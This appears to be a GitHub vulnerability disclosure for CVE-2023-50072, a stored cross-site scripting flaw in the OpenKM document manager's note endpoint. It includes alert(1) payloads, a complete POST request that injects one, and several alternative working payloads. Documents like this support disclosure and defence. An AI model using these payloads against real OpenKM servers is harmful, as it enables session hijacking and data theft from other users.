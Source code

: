 # CVE-2023-50072

A stored cross-site scripting (XSS) vulnerability exists in OpenKM version 7.1.40 (dbb6e88) With Professional Extension that allows an authenticated user to upload a note on a file which acts as a stored XSS payload. Any user who opens the note of a document file will trigger the XSS.

Vulerable Parameter: **text**

## Exploit - Proof of Concept (POC)

### Reflect cross-site scripting (XSS)  
```
Payload : <img/src/onerror=alert(1)> 
FINAL Payload (URL encoded) : <image/src/onerror%3dalert(1)>
```
GET Request on [http://localhost/openkm/rest/note/nodes/NODE-ID] :
```
POST /openkm/rest/note/nodes/34bc430a-e3db-4efa-8289-3d0894010f67 HTTP/2
Host: EXAMPLE.COM
Cookie: lang=en-GB; JSESSIONID=EC6EF7B1DB85C3A839C9D3054095AA8E
Content-Length: 23
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
X-Requested-App: kcenter
Sec-Ch-Ua-Mobile: ?0
Authorization: OKM ey[REDACTED]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: application/json, text/plain, */*
Sec-Ch-Ua-Platform: "Windows"
Origin: https://EXAMPLE.COM
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://EXAMPLE.COM/openkm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

text=<image/src/onerror%3dalert(1)>
```

### Impact
Stored XSS allows attackers to inject malicious scripts into a web application, which get stored and executed when other users view the affected page. This can lead to theft of sensitive information, session hijacking, or distribution of malware.

### Screenshot
![openkm](https://github.com/ahrixia/CVE-2023-50072/assets/35935843/b9b8841b-5b59-4a34-8480-06722913e3d0)


### Other Working Payloads
```
Payload : <img src/onerror=alert(1)>
FINAL Payload (URL encoded) : <img%20src/onerror=alert(1)>
```

